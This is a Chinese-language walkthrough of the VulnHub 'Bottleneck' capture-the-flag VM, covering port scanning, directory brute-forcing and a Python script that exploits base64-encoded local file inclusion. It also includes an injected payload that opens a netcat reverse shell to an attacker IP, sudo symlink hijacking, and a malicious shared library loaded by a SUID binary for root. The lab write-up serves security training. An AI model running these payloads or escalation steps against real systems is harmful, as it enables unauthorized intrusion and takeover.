






# Bottleneck

> https://download.vulnhub.com/bottleneck/Bottleneck.ova

靶场IP：`192.168.32.16`

扫描对外端口服务

```
┌──(root㉿kali)-[~]
└─# nmap -sV -p1-65535 192.168.32.16 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-11 11:33 EDT
Nmap scan report for 192.168.32.16
Host is up (0.00011s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Ubuntu 10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx
MAC Address: 08:00:27:E2:53:18 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.14 seconds

```

浏览器访问80端口


爆破php文件

```
┌──(root㉿kali)-[~]
└─# gobuster dir -x .php -w /usr/share/wordlists/dirb/big.txt -u http://192.168.32.16/
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.32.16/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2022/09/11 23:23:09 Starting gobuster in directory enumeration mode
===============================================================
/css                  (Status: 301) [Size: 162] [--> http://192.168.32.16/css/]
/image_gallery.php    (Status: 200) [Size: 6381]                               
/img                  (Status: 301) [Size: 162] [--> http://192.168.32.16/img/]
/index.php            (Status: 200) [Size: 10175]                              
/js                   (Status: 301) [Size: 162] [--> http://192.168.32.16/js/] 
/vendor               (Status: 301) [Size: 162] [--> http://192.168.32.16/vendor/]
                                                                                  
===============================================================
2022/09/11 23:23:14 Finished
===============================================================

```

访问：`/image_gallery.php`



查看网络找到一个接口，是文件包含图片

```
http://192.168.32.16/image_gallery.php?t=1662953271&f=Ym90dGxlbmVja19kb250YmUucG5n
```


写个python，读取`image_gallery.php`

```python
#!/usr/bin/env python3
import requests
import base64
import os

ip = "192.168.32.16"
url = f"http://{ip}/image_gallery.php"

for i in range(0,10):
    payload = "../"*i+'image_gallery.php'

    # Find difference of timestamp
    s = os.popen("date +%s")
    t = int(s.read())
    # Base64 encoding for payload
    word = payload.strip('\r').strip('\n')
    encode_payload_bytes = base64.b64encode(word.encode('utf-8'))
    encode_payload = encode_payload_bytes.decode('utf-8')

    try:
        params = {'t':str(t),'f':encode_payload}
        r = requests.get(url,params=params)
        #print("-----------Response Begin-----------")
        response = r.text
        if not response:
            print("No Response")
        else:
            if "Let me throw" not in response:
                print(f"Payload: {word}\nEncoded Payload: {encode_payload}\nt: {str(t)}")

                print(response)
        #print("-----------Response End-----------")
    except Exception as e:
        print(e)
```

```
┌──(root㉿kali)-[~]
└─# python3 file.py
Payload: ../image_gallery.php
Encoded Payload: Li4vaW1hZ2VfZ2FsbGVyeS5waHA=
t: 1662956230
<?php
/*
CHANGELOG
v1.1: Still testing without content.
    I've fixed that problem that @p4w and @ska notified me after hacker attack.
    Shit I'm too lazy to make a big review of my code.
    I think that the LFI problem can be mitigated with the blacklist.
    By the way to protect me from attackers, all malicious requests are immediately sent to the SOC

v1.0: Starting this beautiful gallery
*/

$tstamp = time();
if(isset($_GET['t']) && isset($_GET['f'])){
    include_once 'image_gallery_load.php';
    exit();
}

?>
<!DOCTYPE html>
<html lang="en">

<head>
  <meta charset="utf-8">
  <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
  <meta name="description" content="">
  <meta name="author" content="bytevsbyt3">

  <title>BOTTLENECK</title>

  <link href="vendor/bootstrap/css/bootstrap.min.css" rel="stylesheet">
  <link href="vendor/fontawesome-free/css/all.min.css" rel="stylesheet" type="text/css">
  <link href="css/agency.css" rel="stylesheet">
</head>

<body id="page-top">

  <!-- Navigation -->
  <nav class="navbar navbar-expand-lg navbar-dark fixed-top" id="mainNav">
    <div class="container">
      <a class="navbar-brand js-scroll-trigger" href="#page-top">Bottleneck</a>
      <button class="navbar-toggler navbar-toggler-right" type="button" data-toggle="collapse" data-target="#navbarResponsive" aria-controls="navbarResponsive" aria-expanded="false" aria-label="Toggle navigation">
        Menu
        <i class="fas fa-bars"></i>
      </button>
    </div>
  </nav>

  <section class="bg-light page-section" id="portfolio">
    <div class="container">
      <div class="row">
        <div class="col-lg-12 text-center">
          <h2 class="section-heading text-uppercase">GALLERY</h2>
          <h3 class="section-subheading text-muted">Some of our beautiful images</h3>
        </div>
      </div>
      <div class="row">
        <div class="col-md-4 col-sm-6 portfolio-item">
          <a class="portfolio-link" data-toggle="modal" href="#portfolioModal1">
            <div class="portfolio-hover">
              <div class="portfolio-hover-content">
                <i class="fas fa-plus fa-3x"></i>
              </div>
            </div>
            &f=Ym90dGxlbmVja19kb250YmUucG5n" alt="">
          </a>
          <div class="portfolio-caption">
            <h4>Analysis</h4>
          </div>
        </div>
        <div class="col-md-4 col-sm-6 portfolio-item">
          <a class="portfolio-link" data-toggle="modal" href="#portfolioModal2">
            <div class="portfolio-hover">
              <div class="portfolio-hover-content">
                <i class="fas fa-plus fa-3x"></i>
              </div>
            </div>
            &f=Ym90dGxlbmVja19kb250YmUucG5n" alt="">
          </a>
          <div class="portfolio-caption">
            <h4>Protection</h4>
          </div>
        </div>
        <div class="col-md-4 col-sm-6 portfolio-item">
          <a class="portfolio-link" data-toggle="modal" href="#portfolioModal3">
            <div class="portfolio-hover">
              <div class="portfolio-hover-content">
                <i class="fas fa-plus fa-3x"></i>
              </div>
            </div>
            &f=Ym90dGxlbmVja19kb250YmUucG5n" alt="">
          </a>
          <div class="portfolio-caption">
            <h4>Bypass</h4>
          </div>
        </div>
        <div class="col-md-4 col-sm-6 portfolio-item">
          <a class="portfolio-link" data-toggle="modal" href="#portfolioModal4">
            <div class="portfolio-hover">
              <div class="portfolio-hover-content">
                <i class="fas fa-plus fa-3x"></i>
              </div>
            </div>
            &f=Ym90dGxlbmVja19kb250YmUucG5n" alt="">
          </a>
          <div class="portfolio-caption">
            <h4>Include</h4>
          </div>
        </div>
        <div class="col-md-4 col-sm-6 portfolio-item">
          <a class="portfolio-link" data-toggle="modal" href="#portfolioModal5">
            <div class="portfolio-hover">
              <div class="portfolio-hover-content">
                <i class="fas fa-plus fa-3x"></i>
              </div>
            </div>
            &f=Ym90dGxlbmVja19kb250YmUucG5n" alt="">
          </a>
          <div class="portfolio-caption">
            <h4>Evaluation</h4>
          </div>
        </div>
        <div class="col-md-4 col-sm-6 portfolio-item">
          <a class="portfolio-link" data-toggle="modal" href="#portfolioModal6">
            <div class="portfolio-hover">
              <div class="portfolio-hover-content">
                <i class="fas fa-plus fa-3x"></i>
              </div>
            </div>
            &f=Ym90dGxlbmVja19kb250YmUucG5n" alt="">
          </a>
          <div class="portfolio-caption">
            <h4>Win</h4>
          </div>
        </div>
      </div>
    </div>
  </section>

  <!-- Footer -->
  <footer class="footer">
    <div class="container">
      <div class="row align-items-center">
        <div class="col-md-4">
          <span class="copyright">Copyright &copy; This awesome website 2019</span>
        </div>
        <div class="col-md-4">
          <ul class="list-inline social-buttons">
            <li class="list-inline-item">
              <a href="https://twitter.com/bytevsbyt3">
                <i class="fab fa-twitter"></i>
              </a>
            </li>
            <li class="list-inline-item">
              <a href="https://github.com/bytevsbyte/">
                <i class="fab fa-github"></i>
              </a>
            </li>
            <li class="list-inline-item">
              <a href="https://github.com/beerpwn/ctf">
                <i class="fab fa-github"></i>
              </a>
            </li>
          </ul>
        </div>
        <div class="col-md-4">
          <ul class="list-inline quicklinks">
            <li class="list-inline-item">
              <a href="#">Privacy Policy</a>
            </li>
            <li class="list-inline-item">
              <a href="#">Terms of Use</a>
            </li>
          </ul>
        </div>
      </div>
    </div>
  </footer>

  <script src="vendor/jquery/jquery.min.js"></script>
  <script src="vendor/bootstrap/js/bootstrap.bundle.min.js"></script>
  <script src="vendor/jquery-easing/jquery.easing.min.js"></script>
  <script src="js/agency.js"></script>

<body>
</body>
</html>

```

读取`image_gallery_load.php`，看到了这些黑名单目录，这就是`/etc/passwd`不生效的原因。

```
$imagefile = base64_decode($_GET['f']);
$timestamp = time();
$isblocked = FALSE;
$blacklist = array('/etc','/opt','/var','/opt','/proc','/dev','/lib','/bin','/usr','/home','/ids');
$messages = array("\nLet me throw away your nice request into the bin.\n".
    "The SOC was informed about your attempt to break into this site. Thanks to previous attackers effort in smashing my infrastructructure I will take strong legal measures.\n".
    "Why don't you wait on your chair until someone (maybe the police) knock on your door?\n\n");
```

上面的 python 命令将输出到`/tmp/output`. 



输入反弹shell

```
../etc/passwd' and __import__("os").system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.32.5 1234 >/tmp/f") and '
```



查看sudo列表

```
┌──(root㉿kali)-[~]
└─# nc -lvp 1234
listening on [any] 1234 ...
192.168.32.16: inverse host lookup failed: Unknown host
connect to [192.168.32.5] from (UNKNOWN) [192.168.32.16] 53454
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ sudo -l
Matching Defaults entries for www-data on bottleneck:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bottleneck:
    (bytevsbyte) NOPASSWD: /var/www/html/web_utils/clear_logs

```

查看`clear_logs`

```
$ ls -al /var/www/html/web_utils/clear_logs
lrwxrwxrwx 1 www-data www-data 18 Sep 26  2019 /var/www/html/web_utils/clear_logs -> /opt/clear_logs.sh
$ 
$ ls -al /opt/clear_logs.sh
-rwxr--r-- 1 bytevsbyte bytevsbyte 43 Sep 27  2019 /opt/clear_logs.sh

```

由于我们有编辑权限`clear_logs`，让我们用命令更改其符号链接：

```
ln -fns /tmp/clear_logsc /var/www/html/web_utils/clear_logs
```

编辑`/tmp/clear_logsc`：

```
echo -e '#!/bin/bash\n/bin/bash' > /tmp/clear_logsc
```

设置执行权限`/tmp/clear_logsc`：

```
chmod 777 /tmp/clear_logsc
```

运行命令，我们将获得`bytevsbyte`用户：

```
sudo -u bytevsbyte /var/www/html/web_utils/clear_logs
```



我们现在`bytevsbyte`，让我们找到上面有 SUID 的文件：

```
find / -perm -u=s -type f 2>/dev/null
```



我们发现了一个有趣的文件：

```
/usr/test/testlib
```

```
bytevsbyte@bottleneck:/tmp$ cat /usr/test/testlib.c 
cat /usr/test/testlib.c 
#include <dlfcn.h>
#include <unistd.h>

int main(int argc, char *argv[]){
    void *handle;
    int (*function)();
    if(argc < 2)
        return 1;
    handle = dlopen(argv[1], RTLD_LAZY);
    function = dlsym(handle, "test_this");
    function();
    return 0;
}
```

本地编译

```
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
void test_this()
{
setuid(0); setgid(0); system("/bin/sh");
}
```

```
gcc -fPIC -shared exp.c -o exp.so
```

提权成功

```
/usr/test/testlib /tmp/exp.so
```


